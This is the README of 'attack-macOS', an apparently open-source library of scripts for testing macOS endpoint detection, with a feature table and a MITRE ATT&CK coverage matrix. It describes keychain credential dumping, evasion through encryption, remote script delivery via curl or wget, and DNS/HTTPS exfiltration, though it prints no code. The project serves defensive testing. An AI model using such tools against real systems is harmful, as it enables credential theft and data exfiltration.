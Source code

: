 <h1 align="center">
  <br>
  <a href="https://github.com/darmado/attack-macOS"><img src="https://github.com/user-attachments/assets/03a5c7dc-9dd6-49f9-a58b-2fdcdb6596f6" alt="attack-macOS" ></a>
  <br>
</h1>

<div align="center">

  ![Shell](https://img.shields.io/badge/Shell-grey?style=for-the-badge&logo=gnu-bash)
  ![JXA](https://img.shields.io/badge/JXA-grey?style=for-the-badge)
  ![Swift](https://img.shields.io/badge/Swift-grey?style=for-the-badge&logo=swift)
  [![MITRE ATT&CK](https://img.shields.io/badge/%20ATT%26CK%20v15-red?style=for-the-badge)](_DOCS/Procedures/Procedure%20Matrix.md)
  ![License](https://img.shields.io/badge/Apache%202.0-grey.svg?style=for-the-badge&logo=apache)
  ![macOS Compatibility](https://img.shields.io/badge/-blue?style=for-the-badge&logo=apple)
  ![Join Community](https://img.shields.io/badge/Coming%20Soon-grey?style=for-the-badge&logo=discord)
  [![X Follow](https://img.shields.io/badge/-000000?style=for-the-badge&labelColor=black&logo=x&logoColor=white)](https://x.com/attackmacos)
<br>
![Technique Coverage](https://img.shields.io/badge/Technique%20Coverage-11%20(3.43%25)-grey?style=for-the-badge)
![Known Techniques](https://img.shields.io/badge/Known%20Techniques-321-red?style=for-the-badge)
![Procedure Coverage](https://img.shields.io/badge/Procedure%20Coverage-45%20(0.70%25)-grey?style=for-the-badge)
![Estimated Known Procedures](https://img.shields.io/badge/Estimated%20Known%20Procedures-6420-grey?style=for-the-badge)
<br>
<br>
  <a href="#mitre-attck-coverage-matrix">ATT&CK Matrix</a> •
  <a href="#key-features">Key Features</a> •
  <a href="#quick-start">Quick Start</a> •
  <a href="wiki/R&D%20Library">Research Library</a>
<br>
<br>

Attack-macOS is a library of scripts that security teams can use to evaluate macOS endpoint detection and response capabilities. This project aims to simplify the execution of [Living Off The Orchard (LOObins)](https://www.loobins.io/) techniques via standalone scripts with built-in encoding, encryption, formatting, logging, and exfiltration over DNS and HTTPS/S.

##

<div align="center">

### Challenges

</div>

```mermaid
flowchart TD
    A1("🚫 Limited OSS testing tools")
    A2("⚡ Existing tools are tier II/III (advanced)")
    A3("🛡️ Commercial tools focus on hardening and MDM")

    style A1 stroke:#ff6b35,stroke-width:2px,fill:transparent
    style A2 stroke:#ff6b35,stroke-width:2px,fill:transparent
    style A3 stroke:#ff6b35,stroke-width:2px,fill:transparent
```
```mermaid
flowchart TD
    A4("📊 Limited technique and procedure coverage")
    A5("❓ Known risks are not common knowledge")
    A6("🔧 Hard to operationalize test pipelines")
  
    style A4 stroke:#ff6b35,stroke-width:2px,fill:transparent
    style A5 stroke:#ff6b35,stroke-width:2px,fill:transparent
    style A6 stroke:#ff6b35,stroke-width:2px,fill:transparent
```
##
### Solution

```mermaid
flowchart TD
    A1("✓ Build a library of attack scripts that help security teams evaluate and improve macOS endpoint detection and response capabilities.
")
    style A1 stroke:#90EE90,stroke-width:2px,fill:transparent

```

### Key Features

| Feature | Description | Benefit |
|:--------|:------------|:--------|
| **Builder Tool** | Includes a YAML template, schema, and builder tool for creating new scripts with built-in argument parsing and validation. [Parse Args](wiki/R&D%20Library/Functions/Shell/Parse%20Args.md) | Eliminates script development time and reduces errors through automated validation |
| **Modular Design** | Self-contained scripts that can be used independently or combined, easily integrating with existing security test frameworks. | Enables quick deployment without complex tool chains or infrastructure changes |
| **Standardized Help** | All scripts include `--help` menus for standalone execution via custom deployment frameworks or attackmacos.sh handler. | Accelerates execution by eliminating documentation lookup and deployment confusion |
| **macOS Native** | Uses native tools and interpreters without external dependencies. See [LOOBins](https://www.loobins.io/). | Produces macOS telemetry often attrivbuted to threat actors. |
| **MITRE ATT&CK Mapped** | All scripts and arguments directly mapped to the MITRE ATT&CK framework. | Streamlines compliance reporting and threat model alignment |
| **Logging** | Built-in syslog logging capability with output formatting in JSON or CSV for analysis. [Log Output](wiki/R&D%20Library/Functions/Shell/Log%20Output.md) | Automates evidence collection and accelerates post-test analysis |
| **Encoding and Encryption** | Multiple data encoding options and integrated encryption functions including AES-256-CBC, GPG, and XOR. [Encode Output](wiki/R&D%20Library/Functions/Shell/Encode%20Output.md) • [Encrypt Output](wiki/R&D%20Library/Functions/Shell/Encrypt%20Output.md) | Improves test realism by simulating actual evasion techniques |
| **Exfiltration** | Simulates data exfiltration via HTTP/S or DNS protocols. [Exfiltrate Data](wiki/R&D%20Library/Functions/Shell/Exfiltrate%20Data.md) | Tests complete attack chains to identify detection gaps in data loss prevention |
| **CI/CD Pipeline Ready** | Integrates with existing security tools, automation pipelines, and CI/CD workflows. | Enables continuous security testing without manual intervention |

##


# Execution Workflow


```mermaid
flowchart TD
    A( 1: Choose your procedure script) --> A1("🐚 Shell Scripts")
    A --> A2("🟡 JXA Scripts")
    A --> A3("🐍 Python Scripts")
    A --> A4("🦉 Swift Scripts")
    
    A1 --> B( 2: Choose Delivery Method)
    A2 --> B
    A3 --> B
    A4 --> B
    
    B --> B1("🏠 Local ")
    B --> B2("☁️ Remote from GGH</br>curl</br>wget</>osascript ")
    
    B1 --> C(3: Execute</br>T1634: Dump Keys)
    B2 --> C
    
    C --> C1("📋 Format")
    C --> C2("🔧 Encode")
    C --> C3("🔐 Encrypt")
    C --> C4("📡 Exfiltrate")
    
    C1 --> D("📋 Log and<br>🔍Analyze Events")
    C2 --> D
    C3 --> D
    C4 --> D
    
    D --> D1("🎯 Identify Endpoint</br>Detection Gaps")
    
    style A1 fill:transparent,stroke:#6140E0,stroke-width:2px
    style A2 fill:transparent,stroke:#C7B300,stroke-width:2px
    style A3 fill:transparent,stroke:#3BC05A, stroke-width:2px
    style A4 fill:transparent,stroke:#47B7F8, stroke-width:2px
    style A fill:#0D0D0D,stroke:#7A6AB7,stroke-width:2px,color:#fff
    style B fill:#0D0D0D,stroke:#7A6AB7,stroke-width:2px,color:#fff
    style C fill:#0D0D0D,stroke:#EB5454,stroke-width:2px,color:#fff
    style D fill:#0D0D0D,stroke:#7A6AB7,stroke-width:2px,color:#fff
    style D1 fill:#1a237e,stroke:#47B7F8,stroke-width:2px,color:#fff
```
##

<div align="center">

# **MacOS ATT&CK Coverage Matrix**

</div>

<div align="center">

</div>

<details>

| Initial Access | Execution | Persistence | Privilege Escalation | Defense Evasion | Credential Access | Discovery | Lateral Movement | Collection | Command And Control | Exfiltration | Impact |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| ![T1133](https://img.shields.io/badge/T1133-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>External Remote Services</sub> | ![T1129](https://img.shields.io/badge/T1129-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Shared Modules</sub> | ![T1205.002](https://img.shields.io/badge/T1205.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Socket Filters</sub> | ![T1037](https://img.shields.io/badge/T1037-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Boot or Logon Initialization Scripts</sub> | ![T1205.002](https://img.shields.io/badge/T1205.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Socket Filters</sub> | ![T1557](https://img.shields.io/badge/T1557-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Adversary-in-the-Middle</sub> | ![T1033](https://img.shields.io/badge/T1033-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>System Owner/User Discovery</sub> | ![T1021.005](https://img.shields.io/badge/T1021.005-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>VNC</sub> | ![T1560.001](https://img.shields.io/badge/T1560.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Archive via Utility</sub> | ![T1205.002](https://img.shields.io/badge/T1205.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Socket Filters</sub> | ![T1567](https://img.shields.io/badge/T1567-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration Over Web Service</sub> | ![T1561.002](https://img.shields.io/badge/T1561.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Disk Structure Wipe</sub> |
| ![T1195.001](https://img.shields.io/badge/T1195.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Compromise Software Dependencies and Development Tools</sub> | ![T1059.007](https://img.shields.io/badge/T1059.007-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>JavaScript</sub> | ![T1037](https://img.shields.io/badge/T1037-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Boot or Logon Initialization Scripts</sub> | ![T1574.007](https://img.shields.io/badge/T1574.007-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Path Interception by PATH Environment Variable</sub> | ![T1027.009](https://img.shields.io/badge/T1027.009-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Embedded Payloads</sub> | ![T1556.003](https://img.shields.io/badge/T1556.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Pluggable Authentication Modules</sub> | ![T1016.001](https://img.shields.io/badge/T1016.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Internet Connection Discovery</sub> | ![T1080](https://img.shields.io/badge/T1080-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Taint Shared Content</sub> | ![T1113](https://img.shields.io/badge/T1113-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>Screen Capture</sub> | ![T1132.001](https://img.shields.io/badge/T1132.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Standard Encoding</sub> | ![T1567.004](https://img.shields.io/badge/T1567.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration Over Webhook</sub> | ![T1498.001](https://img.shields.io/badge/T1498.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Direct Network Flood</sub> |
| ![T1566.002](https://img.shields.io/badge/T1566.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Spearphishing Link</sub> | ![T1204.002](https://img.shields.io/badge/T1204.002-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>Malicious File</sub> | ![T1556.003](https://img.shields.io/badge/T1556.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Pluggable Authentication Modules</sub> | ![T1543](https://img.shields.io/badge/T1543-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Create or Modify System Process</sub> | ![T1556.003](https://img.shields.io/badge/T1556.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Pluggable Authentication Modules</sub> | ![T1056.001](https://img.shields.io/badge/T1056.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Keylogging</sub> | ![T1069](https://img.shields.io/badge/T1069-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Permission Groups Discovery</sub> | ![T1021.004](https://img.shields.io/badge/T1021.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>SSH</sub> | ![T1557](https://img.shields.io/badge/T1557-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Adversary-in-the-Middle</sub> | ![T1568.002](https://img.shields.io/badge/T1568.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Domain Generation Algorithms</sub> | ![T1029](https://img.shields.io/badge/T1029-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Scheduled Transfer</sub> | ![T1491.002](https://img.shields.io/badge/T1491.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>External Defacement</sub> |
| ![T1566.001](https://img.shields.io/badge/T1566.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Spearphishing Attachment</sub> | ![T1053.003](https://img.shields.io/badge/T1053.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Cron</sub> | ![T1574.007](https://img.shields.io/badge/T1574.007-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Path Interception by PATH Environment Variable</sub> | ![T1546.006](https://img.shields.io/badge/T1546.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>LC_LOAD_DYLIB Addition</sub> | ![T1564.012](https://img.shields.io/badge/T1564.012-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>File/Path Exclusions</sub> | ![T1110.001](https://img.shields.io/badge/T1110.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Password Guessing</sub> | ![T1652](https://img.shields.io/badge/T1652-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Device Driver Discovery</sub> | ![T1563.001](https://img.shields.io/badge/T1563.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>SSH Hijacking</sub> | ![T1056.001](https://img.shields.io/badge/T1056.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Keylogging</sub> | ![T1071.004](https://img.shields.io/badge/T1071.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>DNS</sub> | ![T1011](https://img.shields.io/badge/T1011-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration Over Other Network Medium</sub> | ![T1499.001](https://img.shields.io/badge/T1499.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>OS Exhaustion Flood</sub> |
| ![T1195.003](https://img.shields.io/badge/T1195.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Compromise Hardware Supply Chain</sub> | ![T1053](https://img.shields.io/badge/T1053-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Scheduled Task/Job</sub> | ![T1543](https://img.shields.io/badge/T1543-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Create or Modify System Process</sub> | ![T1548.003](https://img.shields.io/badge/T1548.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Sudo and Sudo Caching</sub> | ![T1222.002](https://img.shields.io/badge/T1222.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Linux and Mac File and Directory Permissions Modification</sub> | ![T1003](https://img.shields.io/badge/T1003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>OS Credential Dumping</sub> | ![T1087.002](https://img.shields.io/badge/T1087.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Domain Account</sub> | ![T1021](https://img.shields.io/badge/T1021-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Remote Services</sub> | ![T1123](https://img.shields.io/badge/T1123-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Audio Capture</sub> | ![T1573.001](https://img.shields.io/badge/T1573.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Symmetric Cryptography</sub> | ![T1011.001](https://img.shields.io/badge/T1011.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration Over Bluetooth</sub> | ![T1499.003](https://img.shields.io/badge/T1499.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Application Exhaustion Flood</sub> |
| ![T1195](https://img.shields.io/badge/T1195-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Supply Chain Compromise</sub> | ![T1059.002](https://img.shields.io/badge/T1059.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>AppleScript</sub> | ![T1133](https://img.shields.io/badge/T1133-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>External Remote Services</sub> | ![T1547](https://img.shields.io/badge/T1547-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Boot or Logon Autostart Execution</sub> | ![T1574.007](https://img.shields.io/badge/T1574.007-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Path Interception by PATH Environment Variable</sub> | ![T1539](https://img.shields.io/badge/T1539-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Steal Web Session Cookie</sub> | ![[T1087.001](../../ttp/discovery/accounts.sh)](https://img.shields.io/badge/T1087.001-lightgrey?style=for-the-badge&label=%2012%20&labelColor=3bc05a&color=494949)</br><sub>Local Account</sub> | ![T1563](https://img.shields.io/badge/T1563-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Remote Service Session Hijacking</sub> | ![T1560.003](https://img.shields.io/badge/T1560.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Archive via Custom Method</sub> | ![T1568.001](https://img.shields.io/badge/T1568.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Fast Flux DNS</sub> | ![T1020](https://img.shields.io/badge/T1020-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Automated Exfiltration</sub> | ![T1561](https://img.shields.io/badge/T1561-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Disk Wipe</sub> |
| ![T1190](https://img.shields.io/badge/T1190-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exploit Public-Facing Application</sub> | ![T1106](https://img.shields.io/badge/T1106-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Native API</sub> | ![T1546.006](https://img.shields.io/badge/T1546.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>LC_LOAD_DYLIB Addition</sub> | ![T1053.003](https://img.shields.io/badge/T1053.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Cron</sub> | ![T1564.008](https://img.shields.io/badge/T1564.008-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Email Hiding Rules</sub> | ![T1555.002](https://img.shields.io/badge/T1555.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Securityd Memory</sub> | ![T1497.001](https://img.shields.io/badge/T1497.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>System Checks</sub> | ![T1072](https://img.shields.io/badge/T1072-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Software Deployment Tools</sub> | ![T1114](https://img.shields.io/badge/T1114-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Email Collection</sub> | ![T1071](https://img.shields.io/badge/T1071-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Application Layer Protocol</sub> | ![T1048.001](https://img.shields.io/badge/T1048.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration Over Symmetric Encrypted Non-C2 Protocol</sub> | ![T1565.001](https://img.shields.io/badge/T1565.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Stored Data Manipulation</sub> |
| ![T1659](https://img.shields.io/badge/T1659-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Content Injection</sub> | ![T1059](https://img.shields.io/badge/T1059-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Command and Scripting Interpreter</sub> | ![T1547](https://img.shields.io/badge/T1547-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Boot or Logon Autostart Execution</sub> | ![T1053](https://img.shields.io/badge/T1053-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Scheduled Task/Job</sub> | ![T1027.013](https://img.shields.io/badge/T1027.013-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Encrypted/Encoded File</sub> | ![T1110.002](https://img.shields.io/badge/T1110.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Password Cracking</sub> | ![T1069.002](https://img.shields.io/badge/T1069.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Domain Groups</sub> | ![T1210](https://img.shields.io/badge/T1210-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exploitation of Remote Services</sub> | ![T1025](https://img.shields.io/badge/T1025-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Data from Removable Media</sub> | ![T1219](https://img.shields.io/badge/T1219-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Remote Access Software</sub> | ![T1567.001](https://img.shields.io/badge/T1567.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration to Code Repository</sub> | ![T1489](https://img.shields.io/badge/T1489-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Service Stop</sub> |
| ![T1078.001](https://img.shields.io/badge/T1078.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Default Accounts</sub> | ![T1569.001](https://img.shields.io/badge/T1569.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Launchctl</sub> | ![T1053.003](https://img.shields.io/badge/T1053.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Cron</sub> | ![T1037.002](https://img.shields.io/badge/T1037.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Login Hook</sub> | ![T1014](https://img.shields.io/badge/T1014-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Rootkit</sub> | ![[T1555.001](../../ttp/credential_access/keychain.sh)](https://img.shields.io/badge/T1555.001-lightgrey?style=for-the-badge&label=%209%20&labelColor=3bc05a&color=494949)</br><sub>Keychain</sub> | ![T1007](https://img.shields.io/badge/T1007-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>System Service Discovery</sub> | ![T1534](https://img.shields.io/badge/T1534-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Internal Spearphishing</sub> | ![T1074.001](https://img.shields.io/badge/T1074.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Local Data Staging</sub> | ![T1659](https://img.shields.io/badge/T1659-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Content Injection</sub> | ![T1048.002](https://img.shields.io/badge/T1048.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration Over Asymmetric Encrypted Non-C2 Protocol</sub> | ![T1499.004](https://img.shields.io/badge/T1499.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Application or System Exploitation</sub> |
| ![T1199](https://img.shields.io/badge/T1199-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Trusted Relationship</sub> | ![T1559.003](https://img.shields.io/badge/T1559.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>XPC Services</sub> | ![T1053](https://img.shields.io/badge/T1053-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Scheduled Task/Job</sub> | ![T1055](https://img.shields.io/badge/T1055-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Process Injection</sub> | ![T1548.003](https://img.shields.io/badge/T1548.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Sudo and Sudo Caching</sub> | ![T1555.005](https://img.shields.io/badge/T1555.005-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Password Managers</sub> | ![T1040](https://img.shields.io/badge/T1040-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Network Sniffing</sub> | ![T1570](https://img.shields.io/badge/T1570-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Lateral Tool Transfer</sub> | ![T1119](https://img.shields.io/badge/T1119-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Automated Collection</sub> | ![T1205](https://img.shields.io/badge/T1205-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Traffic Signaling</sub> | ![[T1041](../../ttp/discovery/browser_history.sh)](https://img.shields.io/badge/T1041-lightgrey?style=for-the-badge&label=%202%20&labelColor=3bc05a&color=494949)</br><sub>Exfiltration Over C2 Channel</sub> | ![T1565.003](https://img.shields.io/badge/T1565.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Runtime Data Manipulation</sub> |
| ![T1566](https://img.shields.io/badge/T1566-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Phishing</sub> | ![T1204](https://img.shields.io/badge/T1204-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>User Execution</sub> | ![T1176](https://img.shields.io/badge/T1176-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Browser Extensions</sub> | ![T1543.004](https://img.shields.io/badge/T1543.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Launch Daemon</sub> | ![T1036.005](https://img.shields.io/badge/T1036.005-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Match Legitimate Name or Location</sub> | ![T1040](https://img.shields.io/badge/T1040-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Network Sniffing</sub> | ![T1135](https://img.shields.io/badge/T1135-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>Network Share Discovery</sub> |  | ![T1115](https://img.shields.io/badge/T1115-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>Clipboard Data</sub> | ![T1572](https://img.shields.io/badge/T1572-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Protocol Tunneling</sub> | ![T1048](https://img.shields.io/badge/T1048-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration Over Alternative Protocol</sub> | 